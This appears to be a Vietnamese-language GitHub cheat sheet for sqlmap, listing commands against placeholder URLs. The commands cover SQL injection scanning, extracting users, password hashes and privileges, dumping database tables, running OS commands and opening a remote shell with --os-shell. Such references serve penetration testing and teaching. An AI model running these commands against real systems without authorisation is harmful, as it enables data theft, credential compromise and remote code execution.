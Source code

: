 > [!NOTE]
> Những dữ liệu năm trong ngoặc ngọn ```<>``` là dữ liệu tuỳ chỉnh
# Khai thác nhanh (bỏ qua các tuỳ chọn)
- Lệnh quét nhanh sẽ bỏ qua các tuỳ chọn được đưa ra trong quá trình quét, nhưng vẫn có thể thu về các thông tin cơ bản về lỗ hổng
- Câu lệnh sử dựng khi chưua có thông tin về mục tiêu
  
		sqlmap -u "<http://example.com>" --forms --flush-session --answers="form=Y,fill blank fields=n,skip=Y,tests=N,follow=N,keep=N,quit=Y,resume=Y" --batch
- **Lưu ý**:
  - Tuỳ chọn ```--flush-session``` để xoá phiên làm việc trước đó, nếu cần sử dụng dữ liệu từ phiên làm việc trước thì cần bỏ tuỳ chọn này
  - Trường hợp phải xác thực username:password thì ta cần login rồi cung cấp Cookie cho sqlmap bằng option ```--cookie``` hoặc có thể cung cấp luôn thông tin của request để chắc chắn
# Khai thác toàn bộ
- Quét và thực hiện khai thác lỗ hổng với các tuỳ chọn mặc định
  
		sqlmap -u "<http://example.com>" --forms --flush-session --batch --all
- **Lưu ý**:
  - Tuỳ chọn ```--flush-session``` để xoá phiên làm việc trước đó, nếu cần sử dụng dữ liệu từ phiên làm việc trước thì cần bỏ tuỳ chọn này
  - Trường hợp phải xác thực username:password thì ta cần login rồi cung cấp Cookie cho sqlmap bằng option ```--cookie``` hoặc có thể cung cấp luôn thông tin của request để chắc chắn
# Các lệnh tuỳ chỉnh
- Lệnh cơ bản:

		sqlmap -u <URL> [OPTIONS]
- Ta sẽ kết hợp câu lệnh cơ bản với các tuỳ chọn để phù hợp với từng mục đích
## Tuỳ chỉnh Request
- Cung cấp file Request:
  
		sqlmap -r <req.txt> --batch 
- Chỉ định tham số cho GET Request:

		sqlmap -u "<http://example.com/?id=*>" -p <id> --batch
- Chỉ định tham số cho POST Request:
  
 		sqlmap -u "<http://example.com>" --data="<username=*&password=*>" --batch
- Chỉ định Headers:

		sqlmap -u "<http://example.com>" --headers="<x-forwarded-for:127.0.0.1*>" --batch --forms
		sqlmap -u "<http://example.com>" --headers="<referer:*>" --forms
- Chỉ định cookie:
  
		sqlmap  -u "<http://example.com>" --cookie "<mycookies=*>" --forms --batch
- Chỉ định HTTP method:

		sqlmap --method=PUT -u "<http://example.com>" --forms --batch
- Chỉ định User-agent:

   		sqlmap -u "<http://example.com>" --user-agent=<SQLMAP> --forms --batch
## Thu thập thông tin
### Thông tin nội bộ
- Thông tin về người dùng hiện tại:

  		sqlmap -u "<http://example.com>" --current-user --forms --batch
- Kiểm tra người dùng hiện tại có phải admin không

		sqlmap -u "<http://example.com>" --is-dba --forms --batch
- Thông tin hostname:

		sqlmap -u "<http://example.com>" --hostname --forms --batch
- Thông tin các user hệ thống

		sqlmap -u "<http://example.com>" --users --forms --batch
- Thông tin về password của các users
  
		sqlmap -u "<http://example.com>" --password --forms --batch
- Thông tin về đặc quyền của các users

		sqlmap -u "<http://example.com>" --privileges --forms --batch
### Dữ liệu từ Database
- Các options chỉ định, có thể thêm vào các lệnh bên dưới để chỉ định DB, bảng, cột để lấy dữ liệu:
  - ```-D <DB NAME>```: Chỉ định Database
  - ```-T <TABLE NAME>```: Chỉ định bảng
  - ```-C <COLUMN NAME>```: Chỉ định cột
- Toàn bộ dữ liệu
  
  		sqlmap -u "<http://example.com>" --all --forms --batch
- Dữ liệu từ đối tượng được chỉ đinh

		sqlmap -u "<http://example.com>" -D <DB_NAME> -T <TABLE> -C <COLUMN> --forms --batch --dump
- Liệt kê các bảng

		sqlmap -u "<http://example.com>" --tables --forms --batch
- Liệt kê các cột

		sqlmap -u "<http://example.com>" --columns --forms --batch
## Shell
- Thực thi lệnh được chỉ định

  		sqlmap -u "<http://example.com>" --forms --batch --os-cmd <whoami>
- Mở Shell
  
		sqlmap -u "<http://example.com>" --forms --batch --os-shell
